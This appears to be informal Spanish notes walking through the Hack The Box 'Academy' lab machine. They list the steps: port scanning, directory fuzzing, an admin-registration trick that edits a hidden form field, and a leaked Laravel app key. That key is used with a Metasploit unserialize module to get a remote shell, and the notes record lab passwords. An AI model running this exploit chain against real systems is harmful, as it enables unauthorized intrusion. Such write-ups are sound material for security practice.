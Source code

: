 1. nmap -p-

2. cambiar el /etc/hosts a 10.10.10.215 academy.htb

3. hydra con ssh no funciona
	- parece q hay usuario egre55
	- hydra a ssh y usuario egre55 tampoco


4. fuzzear
	- $ gobuster dir -w /usr/share/dirb/wordlists/common.txt -o dirb_output.txt -u academy.htb 
```
/admin.php (Status: 200)
/index.php (Status: 200)
```

5. En /register.php hay una etiqueta hidden, a 0 por defecto, quitamos el hidden y cambiamos el 0 por 1

6. Nos registramos y así nos podemos loggear en /admin.php en lugar de /login.php

7. Nos aparece lo siguiente:

```
Item 							Status
Complete initial set of modules (cry0l1t3 / mrb3n) 	done
Finalize website design 				done
Test all modules 					done
Prepare launch campaign 				done
Separate student and admin roles 			done
Fix issue with dev-staging-01.academy.htb 		pending
```

Por lo que enumeramos usuarios: cry0l1t3 / mrb3n


8. Vemos arreglar error en dev-staging-01.academy.htb

En la petición tiene que andar eso en el host, por lo que los añadimos en /etc/hosts/
```
10.10.10.215	academy.htb
10.10.10.215	dev-staging-01.academy.htb
```

Vemos esta información

```
DB_PORT	
"3306"
DB_DATABASE	
"homestead"
DB_USERNAME	
"homestead"
DB_PASSWORD	
"secret"
```

9. Vemos que hay un error de the file could not be opened in append mode, permission denied

El cve es este:  token Unserialize Remote Command Execution (Metasploit)

```
Abrimos metasploit

> use exploit/unix/http/laravel_token_unserialize_exec
> set lhost tun0
> set vhost dev-staging-01.academy.htb
> set rhosts academy.htb
> set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
> exploit 
```

Y estamos dentro, nos sacamos un shell con:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```


Enumeramos usuarios:
21y4d
ch4p
g0blin
cry0l1t3
mrb3n


10. $ cat /var/www/html/academy/config/database.php

```
connections' => [

        'sqlite' => [
            'driver' => 'sqlite',
            'database' => env('DB_DATABASE', database_path('database.sqlite')),
            'prefix' => '',
        ],

        'mysql' => [
            'driver' => 'mysql',
            'host' => env('DB_HOST', '127.0.0.1'),
            'port' => env('DB_PORT', '3306'),
            'database' => env('DB_DATABASE', 'forge'),
            'username' => env('DB_USERNAME', 'forge'),
            'password' => env('DB_PASSWORD', ''),
            'unix_socket' => env('DB_SOCKET', ''),
            'charset' => 'utf8mb4',
            'collation' => 'utf8mb4_unicode_ci',
            'prefix' => '',
            'strict' => true,
            'engine' => null,
        ],

        'pgsql' => [
            'driver' => 'pgsql',
            'host' => env('DB_HOST', '127.0.0.1'),
            'port' => env('DB_PORT', '5432'),
            'database' => env('DB_DATABASE', 'forge'),
            'username' => env('DB_USERNAME', 'forge'),
            'password' => env('DB_PASSWORD', ''),
            'charset' => 'utf8',
            'prefix' => '',
            'schema' => 'public',
            'sslmode' => 'prefer',
        ],

        'sqlsrv' => [
            'driver' => 'sqlsrv',
            'host' => env('DB_HOST', 'localhost'),
            'port' => env('DB_PORT', '1433'),
            'database' => env('DB_DATABASE', 'forge'),
            'username' => env('DB_USERNAME', 'forge'),
            'password' => env('DB_PASSWORD', ''),
            'charset' => 'utf8',
            'prefix' => '',
        ],

    ],

```

```
    'redis' => [

        'client' => 'predis',

        'default' => [
            'host' => env('REDIS_HOST', '127.0.0.1'),
            'password' => env('REDIS_PASSWORD', null),
            'port' => env('REDIS_PORT', 6379),
            'database' => 0,
        ],

    ],

];

```

```
$ whoami    
whoami
cry0l1t3

mySup3rP4s5w0rd!!
```
y ya cat user.txt

nos metemos por ssh



mrb3n_Ac@d3my!
mrb3n_Ac@d3my!
